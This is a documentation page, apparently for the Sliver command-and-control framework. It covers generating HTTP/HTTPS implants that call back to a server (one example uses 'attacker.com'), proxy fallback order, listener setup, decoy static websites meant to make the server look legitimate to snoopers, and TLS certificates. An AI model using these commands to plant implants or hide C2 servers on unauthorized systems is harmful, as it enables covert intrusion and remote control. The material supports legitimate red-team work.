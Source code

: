 
⚠️ __This page is a work in progress__

# Setup

Sliver supports proxy-aware C2 over both HTTP and HTTPS, however since Sliver does not rely upon the SSL/TLS layer for security these protocols are considered somewhat synonymous. There are separate commands for the listeners but an implant generated with `--http` may attempt to connect over both HTTP and HTTPS (see "under the hood" for more details.
 

## Generate the Implant

Sliver implants are compiled with a baked-in (but obfuscated of course) server domain that they will reach back out to. To generate a sliver implant that communicates to a server at `example.com` run the following:

#### Basic Example

```
sliver > generate --http example.com --os mac

[*] Generating new darwin/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/WORKING_HACIENDA
```

#### Multiple Domains

You can also specify multiple domains, in the event the implant cannot connect to the first it will subsequently attempt to connect to each domain you specified in order. Subsequent attempts are made based on the `--reconnect` argument (default 60 seconds). If no attempts are successful, the implant will loop across all of the domains until `--max-errors` (default 1000) is reached, at which point the implant will terminate execution:

```
sliver > generate --http example.com,attacker.com

[*] Generating new windows/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/IMPRESSED_METHANE
```

#### Proxies

The implant attempts to auto-detect proxy settings using a modified version of the [go-get-proxied](https://github.com/rapid7/go-get-proxied) library. It supports detection of system proxy settings on Windows, MacOS, and Linux. In the event the implant cannot make a successful HTTP/HTTPS connection for a given domain using the system proxy settings, it will also attempt to make a connection to the same domain ignoring the proxy settings. The order of connection attempts is as follows:

1. HTTPS over system proxy
1. HTTP over system proxy
1. HTTPS direct connect
1. HTTP direct connect


#### Proxy Configuration

The priority of retrieval is the following:
-  **Windows**
   - Environment Variable: `HTTPS_PROXY`, `HTTP_PROXY`, `FTP_PROXY`, or `ALL_PROXY`. `NO_PROXY` is respected.
   - Internet Options: Automatically detect settings (`WPAD`)
   - Internet Options: Use automatic configuration script (`PAC`)
   - Internet Options: Manual proxy server
   - WINHTTP: (`netsh winhttp`)
- **Linux**
   - Environment Variable: `HTTPS_PROXY`, `HTTP_PROXY`, `FTP_PROXY`, or `ALL_PROXY`. `NO_PROXY` is respected.
- **MacOS**
   - Environment Variable: `HTTPS_PROXY`, `HTTP_PROXY`, `FTP_PROXY`, or `ALL_PROXY`. `NO_PROXY` is respected.
   - Network Settings: `scutil`


## Start the Listener 

To start an HTTP listener use the `http` command, with no parameters this will start a listener on port 80 and respond to any domain (i.e., HTTP `Host:`) that comes in:

```
sliver > http
```

You can optionally restrict the listener to only respond to specific domain using the `--domain` flag, currently each listener can only accept a single domain (but you can start any number of listeners you want):

```
sliver > http --domain example.com
```


## Static Content

Sliver can stand up a website on your HTTP(S) listener in order to make the server look more legitimate. For example, you could put a default IIS index page here and mimic a normal-looking server in case someone comes by snooping. You can manage static content using the `websites` command (see `websites --help`):

```
websites --website fake-blog --web-path / --content ./index.html add
```

Each "website" is identified by a name (`fake-blog` in the example above) and is essentially just key<->value pairs request paths (e.g. `/foo/bar.html`) and response's content. Currently we don't support any regex matching for paths, it has to be an exact match, so keep that in mind if you're linking to content.

__Note:__ C2 related messages are identified, intercepted, and responded to prior to checking for user-provided `website` content, so you can actually map content to any URL used for C2.

To use your website with an HTTP(S) listener, specify it using `--website` when you start the listener:

```
sliver > http --website fake-blog --domain example.com
```

## SSL/TLS Certificates

By default when using the `https` listener Sliver will simply generate a random self-signed certificate. However, other options do exist. The `https` listener also supports automatic TLS certificates via Let's Encrypt, which can be enabled using the `--lets-encrypt` flag.

```
sliver > https --domain example.com --lets-encrypt
```

This uses Let's Encrypt/ACME HTTP validation, so the listener will need the ability to start a public listener and you'll need to have the DNS for your `--domain` pointed to the Sliver server. If you're having issues pulling a certificate be sure to [check the logs](https://github.com/BishopFox/sliver/wiki/Troubleshooting).

You can also upload your own SSL/TLS certificate/key pairs:

```
sliver > https --domain example.com --cert ./cert.pem --key ./key.pem --website fake-blog
```

# Under the Hood



